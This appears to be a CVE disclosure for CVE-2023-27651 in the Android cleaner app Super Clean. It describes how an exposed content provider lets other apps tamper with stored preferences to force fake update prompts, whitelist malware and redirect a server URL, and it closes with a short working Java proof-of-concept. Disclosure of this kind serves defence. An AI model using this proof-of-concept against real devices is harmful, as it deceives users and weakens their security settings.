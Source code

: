 ## Escalation of Privileges exists in Super Clean（CVE-2023-27651）

Vendor：Ego Studio(http://www.egostudiogroup.com/)

Affected product：Super Clean(com.egostudio.clean) 

Version：1.1.5 1.1.9

Download link：https://apkpure.com/cn/super-clean-phone-cleaner/com.egostudio.clean/download

Description of the vulnerability for use in the CVE：An issue found in Ego Studio SuperClean v.1.1.9 and v.1.1.5 allows an attacker to gain privileges via the update_info field of the _default_.xml file.

Additional information：Super Clean is a phone cleaner app for cleaning junk files and optimizing memory usage, it also provides various security-related features such as Wifi security check, app lock, etc. Upon opening, the app loads the SharedPreference files into memory and uses the data in some important functions. If a malicious app modifies important data in the SharedPreference files, the Super Clean app will not behave properly when loading this data. 

​		The attackers can use the update() method in the SharedPrefProvider component exposed by the APP to modify the contents of the SharedPreference file of the APP. The file '__default__.xml' contains a key-value pair named key_self_update_config which records data related to APP updates. By changing the ‘appver’ and ‘type’ fields in the value, the attackers can force the app to trigger the update function. They can then hijack the hint message shown to the user in the update UI by modifying the ‘update_info‘ field to mislead the user. Finally, by modifying the ’packageName‘ field, they can arbitrarily specify the link to which the update button points. (Note that packageName can only be the name of the application package listed in Google Play Market.) This can result in users being induced to download the app specified by the attacker in the application market.

​		Attackers can use similar methods to cause a variety of security hazards. For example, they can allow malicious apps to add themselves to the virus check whitelist (by modifying the KEY_VIRUS_SCAN_WHITELIST field), force the app to initialize all settings (by modifying the key_init_app_finish field), block ads (by modifying the key_ad_new_user_avoid_time field, which affects the developer's advertising revenue), or control the server URL that the victim app is going to access (by modifying the key_wifi_safe_net_check_url field).To make matters worse, users cannot fix the security issues by simply restarting the app, since the injected data is persistent in the SharedPreference files.

poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.egostudio.clean.boost.main.SharedPrefProvider");
    while (true) {
        ContentValues contentValues = new ContentValues();
        String randomString =getRandomString(5120);
        contentValues.put("file_name","__default__");
        contentValues.put("type",4);
        contentValues.put("key","key_self_update_config");
        contentValues.put("value","{\"channel\":\"clean\",\"country\":[\"全部\"],\"appver\":1000,\"enable\":true,\"force_update\":true,\"type\":1002,\"packageName\":\"com.wuxiafield.novastar\",\"jumpurl\":\"https:\\/\\/play.google.com\\/store\\/apps\\/details?id=com.wuxiafield.novastar\",\"interval_time\":6,\"update_info\":[\"hshadhashdsahdhsadhashdhasdhsahdas\"]}");
        contentResolver.update(uri,contentValues,null,null);
        System.out.println("adsadsdas");
    }
}
```



